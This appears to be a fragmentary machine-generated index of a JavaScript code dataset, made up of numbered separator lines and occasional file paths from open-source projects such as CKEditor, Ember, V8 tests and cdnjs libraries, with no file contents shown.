=========================================8196===========================================
=========================================8197===========================================
=========================================8198===========================================
=========================================8199===========================================
=========================================8200===========================================
=========================================8201===========================================
=========================================8202===========================================
=========================================8203===========================================
=========================================8204===========================================
=====================

=========================================8283===========================================
=========================================8284===========================================
=========================================8285===========================================
=========================================8286===========================================
=========================================8287===========================================
=========================================8288===========================================
=========================================8289===========================================
=========================================8290===========================================
=========================================8291===========================================
=========================================8292===========================================
=========================================8293===========================================
=====================

=========================================8374===========================================
data/jquery/esprima/test/fixtures/invalid-syntax/migrated_0218.js
=========================================8375===========================================
=========================================8376===========================================
=========================================8377===========================================
=========================================8378===========================================
=========================================8379===========================================
=========================================8380===========================================
=========================================8381===========================================
=========================================8382===========================================
=========================================8383===========================================
=========================================838

=========================================8465===========================================
=========================================8466===========================================
=========================================8467===========================================
data/QBurst/PenQ/PenQ/omni/chrome/browser/content/browser/places/treeView.js
=========================================8468===========================================
=========================================8469===========================================
=========================================8470===========================================
data/driftyco/ionic/demos/directive/sideMenus/simple/index.js
=========================================8471===========================================
=========================================8472===========================================
=========================================8473===========================================
=========================================8474===============

=========================================8556===========================================
=========================================8557===========================================
=========================================8558===========================================
=========================================8559===========================================
=========================================8560===========================================
=========================================8561===========================================
=========================================8562===========================================
=========================================8563===========================================
=========================================8564===========================================
=========================================8565===========================================
=========================================8566===========================================
=====================

=========================================8647===========================================
=========================================8648===========================================
=========================================8649===========================================
=========================================8650===========================================
=========================================8651===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/undo/lang/vi.js
=========================================8652===========================================
=========================================8653===========================================
=========================================8654===========================================
=========================================8655===========================================
=========================================8656===========================================
======================================

=========================================8743===========================================
=========================================8744===========================================
=========================================8745===========================================
data/mgenev/how-to-sane/client/tests/unit/services/geo-google-test.js
=========================================8746===========================================
=========================================8747===========================================
=========================================8748===========================================
=========================================8749===========================================
=========================================8750===========================================
=========================================8751===========================================
=========================================8752===========================================
========================================

=========================================8832===========================================
=========================================8833===========================================
=========================================8834===========================================
=========================================8835===========================================
data/rancherio/ui/app/project/model.js
=========================================8836===========================================
=========================================8837===========================================
data/burkeholland/kendo-flippable/app/components/kendo-ui-core/src/js/cultures/kendo.culture.es.js
=========================================8838===========================================
=========================================8839===========================================
=========================================8840===========================================
=========================================8841================

=========================================8919===========================================
=========================================8920===========================================
=========================================8921===========================================
=========================================8922===========================================
=========================================8923===========================================
=========================================8924===========================================
=========================================8925===========================================
=========================================8926===========================================
=========================================8927===========================================
=========================================8928===========================================
=========================================8929===========================================
=====================

=========================================9019===========================================
=========================================9020===========================================
=========================================9021===========================================
=========================================9022===========================================
=========================================9023===========================================
=========================================9024===========================================
=========================================9025===========================================
=========================================9026===========================================
=========================================9027===========================================
data/unknown/10767.js
=========================================9028===========================================
=========================================9029===========================================

=========================================9108===========================================
=========================================9109===========================================
=========================================9110===========================================
=========================================9111===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.0/plugins/find/plugin.js
=========================================9112===========================================
=========================================9113===========================================
=========================================9114===========================================
=========================================9115===========================================
=========================================9116===========================================
=========================================9117===========================================
=========================================91

=========================================9201===========================================
=========================================9202===========================================
=========================================9203===========================================
=========================================9204===========================================
=========================================9205===========================================
=========================================9206===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/basicstyles/lang/en-gb.js
=========================================9207===========================================
=========================================9208===========================================
=========================================9209===========================================
=========================================9210===========================================
data/Novik/ruTorrent/plugins

=========================================9287===========================================
=========================================9288===========================================
=========================================9289===========================================
=========================================9290===========================================
=========================================9291===========================================
data/pissang/qtek/build/wrap/start.js
=========================================9292===========================================
=========================================9293===========================================
=========================================9294===========================================
=========================================9295===========================================
=========================================9296===========================================
=========================================9297===========================

=========================================9379===========================================
=========================================9380===========================================
=========================================9381===========================================
=========================================9382===========================================
=========================================9383===========================================
=========================================9384===========================================
=========================================9385===========================================
=========================================9386===========================================
=========================================9387===========================================
data/highslide-software/highcharts.com/utils/benchmark/tests-js/area/lines.js
=========================================9388===========================================
================================

=========================================9467===========================================
data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/OfficeWeb/apps/documenteditor/mobile/app/view/tablet/panel/TextColor.js
=========================================9468===========================================
=========================================9469===========================================
=========================================9470===========================================
=========================================9471===========================================
=========================================9472===========================================
=========================================9473===========================================
=========================================9474===========================================
=========================================9475===========================================
=========================================9476=========================================

=========================================9552===========================================
=========================================9553===========================================
=========================================9554===========================================
=========================================9555===========================================
=========================================9556===========================================
=========================================9557===========================================
=========================================9558===========================================
=========================================9559===========================================
=========================================9560===========================================
=========================================9561===========================================
=========================================9562===========================================
=====================

=========================================9645===========================================
=========================================9646===========================================
=========================================9647===========================================
data/rancherio/ui/tests/unit/pods/overlay/view-test.js
=========================================9648===========================================
=========================================9649===========================================
=========================================9650===========================================
=========================================9651===========================================
=========================================9652===========================================
=========================================9653===========================================
=========================================9654===========================================
=========================================9655==========

=========================================9735===========================================
=========================================9736===========================================
=========================================9737===========================================
=========================================9738===========================================
=========================================9739===========================================
=========================================9740===========================================
=========================================9741===========================================
=========================================9742===========================================
=========================================9743===========================================
=========================================9744===========================================
=========================================9745===========================================
=====================

data/soren121/yodel/Yodel/pages/donate/donate.js
=========================================9824===========================================
=========================================9825===========================================
=========================================9826===========================================
=========================================9827===========================================
=========================================9828===========================================
=========================================9829===========================================
=========================================9830===========================================
=========================================9831===========================================
=========================================9832===========================================
=========================================9833===========================================
=========================================9834================

=========================================9911===========================================
=========================================9912===========================================
=========================================9913===========================================
=========================================9914===========================================
=========================================9915===========================================
=========================================9916===========================================
=========================================9917===========================================
=========================================9918===========================================
=========================================9919===========================================
=========================================9920===========================================
=========================================9921===========================================
=====================

=========================================9998===========================================
data/quickapps-modules/QACMS-Wysiwyg/webroot/js/ckeditor/_source/plugins/scayt/plugin.js
=========================================9999===========================================
=========================================10000===========================================
=========================================10001===========================================
=========================================10002===========================================
data/aerospike/aerospike-client-nodejs/examples/logging.js
=========================================10003===========================================
=========================================10004===========================================
=========================================10005===========================================
=========================================10006===========================================
=========================================100

=========================================10087===========================================
=========================================10088===========================================
=========================================10089===========================================
=========================================10090===========================================
=========================================10091===========================================
=========================================10092===========================================
=========================================10093===========================================
=========================================10094===========================================
=========================================10095===========================================
=========================================10096===========================================
=========================================10097===========================================
==========

=========================================10176===========================================
=========================================10177===========================================
=========================================10178===========================================
=========================================10179===========================================
data/Azure/azure-sdk-for-node/examples/samples/sassample.js
=========================================10180===========================================
=========================================10181===========================================
=========================================10182===========================================
=========================================10183===========================================
=========================================10184===========================================
=========================================10185===========================================
========================================

=========================================10268===========================================
=========================================10269===========================================
=========================================10270===========================================
=========================================10271===========================================
=========================================10272===========================================
=========================================10273===========================================
=========================================10274===========================================
=========================================10275===========================================
=========================================10276===========================================
=========================================10277===========================================
=========================================10278===========================================
==========

=========================================10355===========================================
=========================================10356===========================================
=========================================10357===========================================
=========================================10358===========================================
=========================================10359===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/stylescombo/lang/pt-br.js
=========================================10360===========================================
=========================================10361===========================================
=========================================10362===========================================
=========================================10363===========================================
=========================================10364===========================================
==================

=========================================10440===========================================
data/moment/moment/src/test/moment/listers.js
=========================================10441===========================================
=========================================10442===========================================
data/natevw/ShutterStem/lists/thumbnails.js
=========================================10443===========================================
=========================================10444===========================================
=========================================10445===========================================
=========================================10446===========================================
=========================================10447===========================================
=========================================10448===========================================
=========================================10449===========================================
==========

=========================================10535===========================================
=========================================10536===========================================
=========================================10537===========================================
=========================================10538===========================================
=========================================10539===========================================
=========================================10540===========================================
=========================================10541===========================================
=========================================10542===========================================
=========================================10543===========================================
=========================================10544===========================================
=========================================10545===========================================
==========

=========================================10624===========================================
=========================================10625===========================================
=========================================10626===========================================
=========================================10627===========================================
=========================================10628===========================================
=========================================10629===========================================
=========================================10630===========================================
=========================================10631===========================================
=========================================10632===========================================
=========================================10633===========================================
=========================================10634===========================================
==========

=========================================10797===========================================
=========================================10798===========================================
=========================================10799===========================================
=========================================10800===========================================
=========================================10801===========================================
=========================================10802===========================================
=========================================10803===========================================
=========================================10804===========================================
=========================================10805===========================================
=========================================10806===========================================
=========================================10807===========================================
==========

=========================================10889===========================================
=========================================10890===========================================
=========================================10891===========================================
=========================================10892===========================================
=========================================10893===========================================
=========================================10894===========================================
=========================================10895===========================================
=========================================10896===========================================
=========================================10897===========================================
=========================================10898===========================================
=========================================10899===========================================
==========

=========================================10981===========================================
=========================================10982===========================================
=========================================10983===========================================
=========================================10984===========================================
=========================================10985===========================================
=========================================10986===========================================
=========================================10987===========================================
=========================================10988===========================================
=========================================10989===========================================
=========================================10990===========================================
=========================================10991===========================================
==========

=========================================11069===========================================
=========================================11070===========================================
=========================================11071===========================================
=========================================11072===========================================
=========================================11073===========================================
=========================================11074===========================================
=========================================11075===========================================
=========================================11076===========================================
=========================================11077===========================================
=========================================11078===========================================
=========================================11079===========================================
==========

=========================================11159===========================================
=========================================11160===========================================
data/machty/emblem.js/lib/main.js
=========================================11161===========================================
=========================================11162===========================================
=========================================11163===========================================
=========================================11164===========================================
=========================================11165===========================================
=========================================11166===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/list/lang/fr.js
=========================================11167===========================================
=========================================11168======================================

=========================================11249===========================================
=========================================11250===========================================
=========================================11251===========================================
=========================================11252===========================================
=========================================11253===========================================
=========================================11254===========================================
=========================================11255===========================================
=========================================11256===========================================
data/thinkdry/blank-application/public/ckeditor/plugins/uicolor/plugin.js
=========================================11257===========================================
=========================================11258===========================================
==========================

=========================================11342===========================================
=========================================11343===========================================
=========================================11344===========================================
=========================================11345===========================================
data/codefoster/codeshow/codeShow.JS/codeShow.JS.Shared/demos/core/core.js
=========================================11346===========================================
=========================================11347===========================================
=========================================11348===========================================
=========================================11349===========================================
=========================================11350===========================================
=========================================11351===========================================
=========================

=========================================11432===========================================
=========================================11433===========================================
=========================================11434===========================================
=========================================11435===========================================
=========================================11436===========================================
=========================================11437===========================================
=========================================11438===========================================
=========================================11439===========================================
=========================================11440===========================================
=========================================11441===========================================
=========================================11442===========================================
==========

=========================================11526===========================================
=========================================11527===========================================
=========================================11528===========================================
=========================================11529===========================================
=========================================11530===========================================
=========================================11531===========================================
=========================================11532===========================================
=========================================11533===========================================
=========================================11534===========================================
=========================================11535===========================================
=========================================11536===========================================
==========

=========================================11616===========================================
=========================================11617===========================================
=========================================11618===========================================
=========================================11619===========================================
data/headjs/headjs/dist/0.99/head.css3.js
=========================================11620===========================================
=========================================11621===========================================
=========================================11622===========================================
=========================================11623===========================================
=========================================11624===========================================
=========================================11625===========================================
=========================================11626============

=========================================11704===========================================
=========================================11705===========================================
=========================================11706===========================================
data/etnepres/trophymanager/tm_super_profile_PT-PT.user.js
=========================================11707===========================================
=========================================11708===========================================
=========================================11709===========================================
=========================================11710===========================================
=========================================11711===========================================
data/backstopmedia/bleeding-edge-sample-app/test/client/app/components/questions/edit_essay_equestion_spec.js
=========================================11712===========================================
=====================

=========================================11794===========================================
data/sir-dunxalot/ember-easy-form-extensions/addon/components/form-wrapper.js
=========================================11795===========================================
=========================================11796===========================================
=========================================11797===========================================
=========================================11798===========================================
=========================================11799===========================================
=========================================11800===========================================
=========================================11801===========================================
=========================================11802===========================================
=========================================11803===========================================
======================

=========================================11887===========================================
=========================================11888===========================================
=========================================11889===========================================
=========================================11890===========================================
=========================================11891===========================================
=========================================11892===========================================
=========================================11893===========================================
=========================================11894===========================================
=========================================11895===========================================
=========================================11896===========================================
=========================================11897===========================================
==========

=========================================11975===========================================
=========================================11976===========================================
=========================================11977===========================================
=========================================11978===========================================
=========================================11979===========================================
=========================================11980===========================================
=========================================11981===========================================
=========================================11982===========================================
=========================================11983===========================================
=========================================11984===========================================
=========================================11985===========================================
==========

=========================================12064===========================================
=========================================12065===========================================
=========================================12066===========================================
=========================================12067===========================================
data/jxcore/jxcore/deps/v8/test/mjsunit/polymorph-arrays.js
=========================================12068===========================================
=========================================12069===========================================
=========================================12070===========================================
=========================================12071===========================================
=========================================12072===========================================
=========================================12073===========================================
========================================

=========================================12151===========================================
=========================================12152===========================================
=========================================12153===========================================
=========================================12154===========================================
=========================================12155===========================================
=========================================12156===========================================
=========================================12157===========================================
=========================================12158===========================================
=========================================12159===========================================
=========================================12160===========================================
=========================================12161===========================================
==========

=========================================12239===========================================
=========================================12240===========================================
=========================================12241===========================================
=========================================12242===========================================
=========================================12243===========================================
=========================================12244===========================================
=========================================12245===========================================
=========================================12246===========================================
=========================================12247===========================================
=========================================12248===========================================
=========================================12249===========================================
==========

=========================================12333===========================================
=========================================12334===========================================
=========================================12335===========================================
=========================================12336===========================================
=========================================12337===========================================
=========================================12338===========================================
=========================================12339===========================================
=========================================12340===========================================
=========================================12341===========================================
=========================================12342===========================================
=========================================12343===========================================
data/proje

=========================================12422===========================================
=========================================12423===========================================
=========================================12424===========================================
=========================================12425===========================================
=========================================12426===========================================
data/micmro/performance-bookmarklet/dist/tempCollect/components/navigationTimeline.js
=========================================12427===========================================
=========================================12428===========================================
=========================================12429===========================================
=========================================12430===========================================
=========================================12431===========================================
==============

=========================================12509===========================================
=========================================12510===========================================
=========================================12511===========================================
=========================================12512===========================================
=========================================12513===========================================
=========================================12514===========================================
=========================================12515===========================================
=========================================12516===========================================
=========================================12517===========================================
=========================================12518===========================================
=========================================12519===========================================
==========

=========================================12597===========================================
=========================================12598===========================================
=========================================12599===========================================
=========================================12600===========================================
=========================================12601===========================================
=========================================12602===========================================
=========================================12603===========================================
data/google/traceur-compiler/src/codegeneration/InlineES6ModuleTransformer.js
=========================================12604===========================================
=========================================12605===========================================
=========================================12606===========================================
======================

=========================================12688===========================================
=========================================12689===========================================
=========================================12690===========================================
=========================================12691===========================================
data/jchris/sofa/lists/index.js
=========================================12692===========================================
data/codeschool/AngularJSSTB/node_modules/bower/node_modules/bower-endpoint-parser/test/test.js
=========================================12693===========================================
=========================================12694===========================================
=========================================12695===========================================
=========================================12696===========================================
=========================================12697================

data/cdnjs/cdnjs/ajax/libs/webshim/1.14.3-RC3/dev/shims/combos/9.js
=========================================12776===========================================
=========================================12777===========================================
=========================================12778===========================================
data/nervgh/angular-file-upload/src/outro.js
=========================================12779===========================================
=========================================12780===========================================
=========================================12781===========================================
=========================================12782===========================================
=========================================12783===========================================
=========================================12784===========================================
=========================================12785===============================

=========================================12863===========================================
=========================================12864===========================================
=========================================12865===========================================
=========================================12866===========================================
=========================================12867===========================================
=========================================12868===========================================
=========================================12869===========================================
=========================================12870===========================================
=========================================12871===========================================
=========================================12872===========================================
=========================================12873===========================================
==========

=========================================12951===========================================
=========================================12952===========================================
=========================================12953===========================================
=========================================12954===========================================
=========================================12955===========================================
=========================================12956===========================================
=========================================12957===========================================
=========================================12958===========================================
=========================================12959===========================================
=========================================12960===========================================
=========================================12961===========================================
==========

=========================================13045===========================================
=========================================13046===========================================
=========================================13047===========================================
=========================================13048===========================================
=========================================13049===========================================
=========================================13050===========================================
=========================================13051===========================================
=========================================13052===========================================
=========================================13053===========================================
=========================================13054===========================================
=========================================13055===========================================
==========

=========================================13137===========================================
=========================================13138===========================================
=========================================13139===========================================
=========================================13140===========================================
=========================================13141===========================================
=========================================13142===========================================
=========================================13143===========================================
data/avoidwork/filesize.js/lib/filesize.es6.js
=========================================13144===========================================
=========================================13145===========================================
=========================================13146===========================================
=========================================13147=======

=========================================13228===========================================
=========================================13229===========================================
=========================================13230===========================================
=========================================13231===========================================
=========================================13232===========================================
=========================================13233===========================================
=========================================13234===========================================
data/hummingbird-me/hummingbird/frontend/tests/unit/helpers/repeat-test.js
=========================================13235===========================================
=========================================13236===========================================
=========================================13237===========================================
=========================

=========================================13320===========================================
=========================================13321===========================================
=========================================13322===========================================
=========================================13323===========================================
=========================================13324===========================================
=========================================13325===========================================
=========================================13326===========================================
=========================================13327===========================================
=========================================13328===========================================
=========================================13329===========================================
=========================================13330===========================================
==========

=========================================13411===========================================
=========================================13412===========================================
=========================================13413===========================================
=========================================13414===========================================
=========================================13415===========================================
=========================================13416===========================================
=========================================13417===========================================
=========================================13418===========================================
=========================================13419===========================================
=========================================13420===========================================
=========================================13421===========================================
==========

=========================================13498===========================================
=========================================13499===========================================
data/jsdelivr/jsdelivr/files/metrojs/0.8.9.3j/MetroJs.js
=========================================13500===========================================
=========================================13501===========================================
=========================================13502===========================================
=========================================13503===========================================
=========================================13504===========================================
=========================================13505===========================================
=========================================13506===========================================
=========================================13507===========================================
=========================================13

=========================================13592===========================================
=========================================13593===========================================
=========================================13594===========================================
=========================================13595===========================================
=========================================13596===========================================
=========================================13597===========================================
=========================================13598===========================================
=========================================13599===========================================
=========================================13600===========================================
=========================================13601===========================================
data/backstopmedia/bleeding-edge-sample-app/test/client/fundamentals/simulate_click_spec.js
========

=========================================13685===========================================
=========================================13686===========================================
=========================================13687===========================================
=========================================13688===========================================
=========================================13689===========================================
=========================================13690===========================================
=========================================13691===========================================
=========================================13692===========================================
=========================================13693===========================================
=========================================13694===========================================
=========================================13695===========================================
==========

=========================================13781===========================================
=========================================13782===========================================
=========================================13783===========================================
=========================================13784===========================================
=========================================13785===========================================
=========================================13786===========================================
=========================================13787===========================================
=========================================13788===========================================
=========================================13789===========================================
=========================================13790===========================================
=========================================13791===========================================
==========

=========================================13872===========================================
small script 
data/cdnjs/cdnjs/ajax/libs/backbone.marionette/2.0.1/core/amd/backbone.marionette.js
=========================================13873===========================================
=========================================13874===========================================
=========================================13875===========================================
=========================================13876===========================================
=========================================13877===========================================
=========================================13878===========================================
=========================================13879===========================================
=========================================13880===========================================
=========================================13881===========================================
=

=========================================13960===========================================
=========================================13961===========================================
=========================================13962===========================================
=========================================13963===========================================
=========================================13964===========================================
=========================================13965===========================================
=========================================13966===========================================
=========================================13967===========================================
=========================================13968===========================================
=========================================13969===========================================
=========================================13970===========================================
==========

=========================================14054===========================================
=========================================14055===========================================
=========================================14056===========================================
=========================================14057===========================================
=========================================14058===========================================
data/TypiCMS/Base/public/components/ckeditor/plugins/quicktable/lang/fr.js
=========================================14059===========================================
=========================================14060===========================================
=========================================14061===========================================
=========================================14062===========================================
=========================================14063===========================================
=========================

=========================================14143===========================================
=========================================14144===========================================
data/unknown/47227.js
=========================================14145===========================================
=========================================14146===========================================
=========================================14147===========================================
=========================================14148===========================================
=========================================14149===========================================
=========================================14150===========================================
=========================================14151===========================================
data/iojs/io.js/deps/v8/test/mjsunit/debug-script.js
=========================================14152===========================================
=========================

=========================================14229===========================================
=========================================14230===========================================
=========================================14231===========================================
=========================================14232===========================================
=========================================14233===========================================
=========================================14234===========================================
=========================================14235===========================================
data/hummingbird-me/hummingbird/frontend/tests/unit/models/manga-library-entry-test.js
=========================================14236===========================================
=========================================14237===========================================
=========================================14238===========================================
=============

=========================================14317===========================================
=========================================14318===========================================
=========================================14319===========================================
=========================================14320===========================================
=========================================14321===========================================
=========================================14322===========================================
=========================================14323===========================================
=========================================14324===========================================
=========================================14325===========================================
=========================================14326===========================================
=========================================14327===========================================
==========

=========================================14410===========================================
=========================================14411===========================================
=========================================14412===========================================
=========================================14413===========================================
=========================================14414===========================================
=========================================14415===========================================
=========================================14416===========================================
=========================================14417===========================================
=========================================14418===========================================
=========================================14419===========================================
=========================================14420===========================================
==========

=========================================14501===========================================
=========================================14502===========================================
=========================================14503===========================================
=========================================14504===========================================
=========================================14505===========================================
=========================================14506===========================================
data/BBC-News-Labs/datastringer/datastringer.js
=========================================14507===========================================
=========================================14508===========================================
=========================================14509===========================================
=========================================14510===========================================
=========================================14511======

=========================================14596===========================================
=========================================14597===========================================
=========================================14598===========================================
=========================================14599===========================================
=========================================14600===========================================
=========================================14601===========================================
=========================================14602===========================================
=========================================14603===========================================
=========================================14604===========================================
=========================================14605===========================================
=========================================14606===========================================
data/dwait

=========================================14688===========================================
=========================================14689===========================================
=========================================14690===========================================
=========================================14691===========================================
=========================================14692===========================================
=========================================14693===========================================
data/emberjs/ember.js/packages/ember-metal/lib/is_empty.js
=========================================14694===========================================
data/tildeio/oasis.js/lib/oasis/iframe_adapter.js
=========================================14695===========================================
=========================================14696===========================================
=========================================14697===================================

=========================================14775===========================================
=========================================14776===========================================
=========================================14777===========================================
=========================================14778===========================================
=========================================14779===========================================
=========================================14780===========================================
=========================================14781===========================================
=========================================14782===========================================
data/kdelemme/split.ly/app/js/app.js
=========================================14783===========================================
data/webhook/webhook-cms/app/controllers/wh/index.js
=========================================14784===========================================
==========

=========================================14862===========================================
data/thinkgem/jeesite/src/main/webapp/static/ckeditor/plugins/uicolor/lang/tr.js
=========================================14863===========================================
=========================================14864===========================================
=========================================14865===========================================
=========================================14866===========================================
=========================================14867===========================================
=========================================14868===========================================
=========================================14869===========================================
=========================================14870===========================================
=========================================14871===========================================
===================

=========================================14947===========================================
=========================================14948===========================================
=========================================14949===========================================
=========================================14950===========================================
=========================================14951===========================================
=========================================14952===========================================
=========================================14953===========================================
=========================================14954===========================================
=========================================14955===========================================
=========================================14956===========================================
=========================================14957===========================================
==========

=========================================15036===========================================
=========================================15037===========================================
=========================================15038===========================================
=========================================15039===========================================
data/thinkgem/jeesite/src/main/webapp/static/ckeditor/_source/plugins/scayt/dialogs/options.js
=========================================15040===========================================
=========================================15041===========================================
=========================================15042===========================================
=========================================15043===========================================
=========================================15044===========================================
data/sergiolepore/Cation/src/providers/basicprovider.js
=======================================

=========================================15129===========================================
=========================================15130===========================================
=========================================15131===========================================
=========================================15132===========================================
=========================================15133===========================================
=========================================15134===========================================
=========================================15135===========================================
data/backand/angularbknd/app/backand/js/jquery.backand.js
=========================================15136===========================================
=========================================15137===========================================
=========================================15138===========================================
data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/O

=========================================15223===========================================
=========================================15224===========================================
=========================================15225===========================================
=========================================15226===========================================
=========================================15227===========================================
=========================================15228===========================================
=========================================15229===========================================
=========================================15230===========================================
=========================================15231===========================================
=========================================15232===========================================
=========================================15233===========================================
==========

=========================================15313===========================================
=========================================15314===========================================
=========================================15315===========================================
=========================================15316===========================================
=========================================15317===========================================
=========================================15318===========================================
=========================================15319===========================================
=========================================15320===========================================
=========================================15321===========================================
=========================================15322===========================================
=========================================15323===========================================
data/joyen

=========================================15399===========================================
=========================================15400===========================================
=========================================15401===========================================
=========================================15402===========================================
=========================================15403===========================================
=========================================15404===========================================
=========================================15405===========================================
=========================================15406===========================================
=========================================15407===========================================
=========================================15408===========================================
=========================================15409===========================================
==========

=========================================15485===========================================
=========================================15486===========================================
=========================================15487===========================================
=========================================15488===========================================
=========================================15489===========================================
=========================================15490===========================================
=========================================15491===========================================
=========================================15492===========================================
=========================================15493===========================================
=========================================15494===========================================
data/unknown/60803.js
=========================================15495================================

=========================================15580===========================================
=========================================15581===========================================
=========================================15582===========================================
=========================================15583===========================================
=========================================15584===========================================
=========================================15585===========================================
=========================================15586===========================================
=========================================15587===========================================
=========================================15588===========================================
=========================================15589===========================================
data/jxcore/jxcore/test/simple/test-process-kill-null.js
=========================================15

=========================================15667===========================================
=========================================15668===========================================
=========================================15669===========================================
data/Breeze/breeze.js.samples/ruby/CCJS-Ruby/client/app/viewmodels/shell-modal.js
=========================================15670===========================================
=========================================15671===========================================
=========================================15672===========================================
=========================================15673===========================================
=========================================15674===========================================
=========================================15675===========================================
=========================================15676===========================================
data/techjacker/Ba

=========================================15751===========================================
=========================================15752===========================================
=========================================15753===========================================
=========================================15754===========================================
=========================================15755===========================================
=========================================15756===========================================
=========================================15757===========================================
=========================================15758===========================================
=========================================15759===========================================
=========================================15760===========================================
=========================================15761===========================================
==========

=========================================15834===========================================
=========================================15835===========================================
=========================================15836===========================================
=========================================15837===========================================
=========================================15838===========================================
=========================================15839===========================================
=========================================15840===========================================
=========================================15841===========================================
=========================================15842===========================================
=========================================15843===========================================
=========================================15844===========================================
==========

=========================================15919===========================================
=========================================15920===========================================
=========================================15921===========================================
=========================================15922===========================================
data/yasp/yasp/src/app/instructions/JZ.js
=========================================15923===========================================
=========================================15924===========================================
=========================================15925===========================================
=========================================15926===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/stylescombo/lang/fa.js
=========================================15927===========================================
=========================================15928=======================

=========================================16002===========================================
=========================================16003===========================================
=========================================16004===========================================
=========================================16005===========================================
=========================================16006===========================================
=========================================16007===========================================
=========================================16008===========================================
=========================================16009===========================================
=========================================16010===========================================
=========================================16011===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/specialchar/lang/mk.js
=====================

=========================================16094===========================================
=========================================16095===========================================
=========================================16096===========================================
=========================================16097===========================================
=========================================16098===========================================
=========================================16099===========================================
=========================================16100===========================================
data/yui/yui3/src/calendar/lang/calendar-base_zh-Hant.js
=========================================16101===========================================
=========================================16102===========================================
data/mozilla/rhino/testsrc/tests/js1_7/geniter/regress-349023-01.js
=========================================16103===================

=========================================16178===========================================
=========================================16179===========================================
=========================================16180===========================================
data/cibernox/mobile-patterns/app/services/browser-detector.js
=========================================16181===========================================
=========================================16182===========================================
=========================================16183===========================================
=========================================16184===========================================
=========================================16185===========================================
=========================================16186===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/elementspath/lang/et.js
=========================================16187=

=========================================16264===========================================
=========================================16265===========================================
=========================================16266===========================================
=========================================16267===========================================
=========================================16268===========================================
=========================================16269===========================================
=========================================16270===========================================
=========================================16271===========================================
=========================================16272===========================================
=========================================16273===========================================
=========================================16274===========================================
==========

=========================================16353===========================================
=========================================16354===========================================
=========================================16355===========================================
=========================================16356===========================================
=========================================16357===========================================
=========================================16358===========================================
=========================================16359===========================================
=========================================16360===========================================
=========================================16361===========================================
=========================================16362===========================================
=========================================16363===========================================
data/huafu

=========================================16440===========================================
=========================================16441===========================================
=========================================16442===========================================
=========================================16443===========================================
=========================================16444===========================================
=========================================16445===========================================
=========================================16446===========================================
data/cdnjs/cdnjs/ajax/libs/webshim/1.12.6/dev/shims/combos/5.js
=========================================16447===========================================
=========================================16448===========================================
=========================================16449===========================================
====================================

=========================================16531===========================================
=========================================16532===========================================
=========================================16533===========================================
=========================================16534===========================================
=========================================16535===========================================
=========================================16536===========================================
=========================================16537===========================================
data/emberjs/ember.js/packages/ember-testing/tests/adapters/qunit_test.js
=========================================16538===========================================
=========================================16539===========================================
=========================================16540===========================================
==========================

=========================================16622===========================================
=========================================16623===========================================
=========================================16624===========================================
=========================================16625===========================================
data/mozilla/ubiquity/ubiquity/chrome/content/localization-template.js
=========================================16626===========================================
=========================================16627===========================================
=========================================16628===========================================
=========================================16629===========================================
data/jdickie/TEILiteEditor/plugins/ckeditor/_source/plugins/removeformat/plugin.js
=========================================16630===========================================
====================================

=========================================16705===========================================
=========================================16706===========================================
=========================================16707===========================================
=========================================16708===========================================
=========================================16709===========================================
=========================================16710===========================================
=========================================16711===========================================
=========================================16712===========================================
=========================================16713===========================================
=========================================16714===========================================
=========================================16715===========================================
==========

=========================================16798===========================================
data/caolan/nodeunit/deps/ejs/node_modules/expresso/deps/jscoverage/tests/javascript.expected/javascript-generator-expression.js
=========================================16799===========================================
=========================================16800===========================================
=========================================16801===========================================
=========================================16802===========================================
=========================================16803===========================================
=========================================16804===========================================
=========================================16805===========================================
=========================================16806===========================================
=========================================16807===============

=========================================16884===========================================
=========================================16885===========================================
=========================================16886===========================================
=========================================16887===========================================
=========================================16888===========================================
=========================================16889===========================================
=========================================16890===========================================
=========================================16891===========================================
=========================================16892===========================================
=========================================16893===========================================
=========================================16894===========================================
==========

=========================================16970===========================================
=========================================16971===========================================
=========================================16972===========================================
=========================================16973===========================================
=========================================16974===========================================
=========================================16975===========================================
=========================================16976===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/table/lang/et.js
=========================================16977===========================================
data/Farata/EnterpriseWebBook_sources/chapter13/SSC/www/js/app-main.js
=========================================16978===========================================
=========================================16979

=========================================17057===========================================
=========================================17058===========================================
=========================================17059===========================================
=========================================17060===========================================
=========================================17061===========================================
=========================================17062===========================================
=========================================17063===========================================
=========================================17064===========================================
=========================================17065===========================================
=========================================17066===========================================
=========================================17067===========================================
==========

=========================================17147===========================================
=========================================17148===========================================
=========================================17149===========================================
=========================================17150===========================================
=========================================17151===========================================
=========================================17152===========================================
=========================================17153===========================================
=========================================17154===========================================
=========================================17155===========================================
=========================================17156===========================================
=========================================17157===========================================
==========

=========================================17237===========================================
=========================================17238===========================================
=========================================17239===========================================
=========================================17240===========================================
=========================================17241===========================================
=========================================17242===========================================
=========================================17243===========================================
=========================================17244===========================================
=========================================17245===========================================
=========================================17246===========================================
=========================================17247===========================================
==========

=========================================17334===========================================
=========================================17335===========================================
=========================================17336===========================================
=========================================17337===========================================
=========================================17338===========================================
=========================================17339===========================================
=========================================17340===========================================
=========================================17341===========================================
=========================================17342===========================================
=========================================17343===========================================
=========================================17344===========================================
==========

=========================================17428===========================================
=========================================17429===========================================
=========================================17430===========================================
=========================================17431===========================================
=========================================17432===========================================
=========================================17433===========================================
=========================================17434===========================================
=========================================17435===========================================
=========================================17436===========================================
=========================================17437===========================================
=========================================17438===========================================
==========

=========================================17520===========================================
=========================================17521===========================================
data/runspired/ember-mobiletouch/addon/utils/is-gesture.js
=========================================17522===========================================
=========================================17523===========================================
=========================================17524===========================================
=========================================17525===========================================
=========================================17526===========================================
=========================================17527===========================================
=========================================17528===========================================
=========================================17529===========================================
=========================================

=========================================17606===========================================
=========================================17607===========================================
=========================================17608===========================================
=========================================17609===========================================
=========================================17610===========================================
=========================================17611===========================================
=========================================17612===========================================
=========================================17613===========================================
=========================================17614===========================================
=========================================17615===========================================
=========================================17616===========================================
==========

=========================================17695===========================================
=========================================17696===========================================
=========================================17697===========================================
=========================================17698===========================================
